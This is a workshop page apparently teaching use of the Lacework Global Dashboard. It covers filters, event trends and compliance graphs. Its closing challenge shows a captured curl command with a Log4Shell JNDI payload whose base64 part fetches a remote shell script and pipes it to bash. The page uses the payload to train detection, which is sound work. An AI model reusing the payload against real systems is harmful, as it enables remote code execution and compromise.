```yaml
---
title: "Lacework Global Dashboard"
chapter: false
draft: false
weight: 41
pre: "<b>4.1 </b>"
---
```


The _Global Dashboard_ displays a visual summary of the following items:

* All CloudTrail, network, user, and process events ingested by Lacework
* Entity behaviors identified by Lacework
* Events and critical events generated by Lacework

1. You can filter on a timeframe using the **Last …** drop-down located in the upper right corner. You can filter from the last 24 hours to 90 days (or 180 days if you have subscribed for additional storage).
2. Click **Trends** to switch the view to display **Events over Time**, a graph displaying events of varying severity (from critical to informational) over the same selected timeframe.
![Lacework Dashboard](/images/lacework-dashboard.png)
3. Filter events by severity, under **Events Over Time**, select one or more checkboxes.
{{% notice info %}}
The slider bars underneath the graph allow you to zoom in to a smaller time period during the selected timeframe, for example, you can adjust both left and right sliders during a 3-day window to view a 4-hour window.
{{% /notice %}}
4. Observe the **Compliance Trends Over Time** graph are two bar graphs that display CloudTrail and host events. The CloudTrail graph is populated with events only if a Lacework AWS integration is configured and the host graph is populated only if agents are deployed in your environment.
{{% notice info %}}
By default, the graph displays up to five event types. The listed order of the event types is weighted by the severity of the events followed by the total number of events, for example, one critical event is listed before two high severity events. If more than 5 event types are available for the selected time period, you can view the remaining event types by clicking the **View ...** link below the graph.
{{% /notice %}}
![Compliance Trends Over Time](/images/lacework-compliance-trends-over-time.png)
5. Observe the **Cloud Compliance Events** and **Host Events** panels to see the breakdown of events.
![Lacework Compliance Events](/images/lacework-compliance-events.png)

The _Global Dashboard_ provides a quick view of your cloud security posture. It gives you a summary of your security data, trends and events.

***
# Challenge
{{%expand "In the Host Events pane, click through the New Application events to see what types of applications were launched. Select the curl event and explore the details. Can you find the curl command that was executed?" %}} curl -v http://a7aedb671d05b4dc996f3243e1ca253e-1577402981.us-west-2.elb.amazonaws.com:8080 -H X-Api-Version:${jndi:ldap://93.189.42.8:5557/Basic/Command/Base64/KGN1cmwgLXMgOTMuMTg5LjQyLjgvbGguc2h8fHdnZXQgLXEgLU8tIDkzLjE4OS40Mi44L2xoLnNoKXxiYXNo} {{% /expand%}}
